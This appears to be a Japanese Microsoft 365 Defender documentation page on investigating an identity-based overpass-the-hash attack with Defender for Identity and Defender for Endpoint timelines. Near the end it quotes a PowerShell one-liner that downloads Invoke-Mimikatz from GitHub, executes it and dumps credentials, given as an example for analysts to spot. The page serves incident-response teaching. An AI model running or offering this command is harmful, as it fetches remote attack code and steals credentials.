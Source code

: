 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析例を説明します。
keywords: インシデント、アラート、調査、相関関係、攻撃、コンピューター、デバイス、ユーザー、ID、メールボックス、電子メール、365、microsoft、m365、インシデント対応、サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 4f15bf358d180e30ab34abff3105ba77edb6fa0d
ms.sourcegitcommit: d4b867e37bf741528ded7fb289e4f6847228d2c5
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 10/06/2021
ms.locfileid: "60149837"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identity は、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity は Microsoft 365 Defender と統合されますので、セキュリティ アナリストは、Netlogon 特権昇格の疑いなど、Defender for Identity からの脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identity での攻撃の分析

Microsoft 365 Defenderアナリストは、[インシデント] ページの [アラート] タブで検出ソースによってアラートをフィルター処理できます。 次の例では、検出ソースは Defender for **Identity にフィルター処理されます**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Defender for Identity の検出ソースをフィルター処理する例。":::

[疑わしいオーバーパス **-the ハッシュ** 攻撃] アラートを選択すると、詳細な情報を表示する Microsoft Cloud App Securityページに移動します。 [このアラートの種類の詳細] を選択して、攻撃の説明と修復の提案を読み[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)取り、アラートや攻撃の詳細をいつでも確認できます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしいオーバーパスのハッシュ攻撃アラートの例。"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>エンドポイント向け Microsoft Defender で同じ攻撃を調査する

または、分析者は Defender for Endpoint を使用して、エンドポイントでのアクティビティの詳細を確認できます。 インシデント キューからインシデントを選択し、[アラート] タブ **を選択** します。ここから、検出ソースも識別できます。 [エンドポイントの検出と応答] EDR検出ソースは、Defender for Endpoint です。 ここから、アナリストはユーザーが検出したアラートをEDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint のエンドポイント検出と応答の例。"::: 

アラート ページには、影響を受けたデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスの階層的な表現です。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint のアラート プロセス ツリーの例。"::: 

各プロセスを展開して、追加の詳細を表示できます。 アナリストに表示される詳細は、悪意のあるスクリプト、送信接続 IP アドレス、その他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint のプロセスの詳細の例。":::
 
[タイムラインで **表示] を選択** すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpoint では、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な使用が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは良性と見なされます。 そのため、タイムラインを使用すると、アナリストはアラートを周囲のアクティビティと関連付け、一般的なファイル システムとユーザー アクティビティによって見えなされない攻撃の元のソースまたは時間を特定できます。 

これを行うには、アナリストはアラート検出時 (赤色) から開始し、悪意のあるアクティビティに導かれた元のアクティビティが実際に開始された時期を判断するために、時間内に後方にスクロールします。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アラート検出時の開始例。"::: 

Windows Update 接続、Windows 信頼できるソフトウェアライセンス認証トラフィック、Microsoft サイトへのその他の一般的な接続、サードパーティのインターネットアクティビティ、Microsoft Endpoint Configuration Manager アクティビティ、その他の良性アクティビティなどの一般的なアクティビティを疑わしいアクティビティと理解し、区別することが重要です。 これを実現する 1 つの方法は、タイムライン フィルターを使用する方法です。 アナリストが表示したくない項目をフィルター処理しながら、特定のアクティビティを強調表示できるフィルターが多数存在します。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しました。 これにより、アナリストは、メモ帳が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。これは、プロセス ツリーでも見ていました。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意のある送信メモ帳接続を確立するために使用された方法の例。"::: 

この特定のイベントでは、悪意メモ帳送信接続を確立するために使用されたイベントです。 ただし、通常、攻撃者は iexplorer.exe を使用して悪意のあるペイロードをダウンロードする接続を確立します。通常、iexplorer.exeプロセスは通常の Web ブラウザーアクティビティと見なされます。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用する場合です。 アナリストは、悪意のあるファイルをホストする Web サイトへの送信接続などのコマンドを使用して、PowerShell 接続の成功 `IEX (New-Object Net.Webclient)` を探します。 

次の例では、PowerShell を使用して Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力して、PowerShell で作成されたイベントのみを表示することで、キーワードをすばやく検索できます。 

## <a name="next-step"></a>次の手順

フィッシング調査 [パスを](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
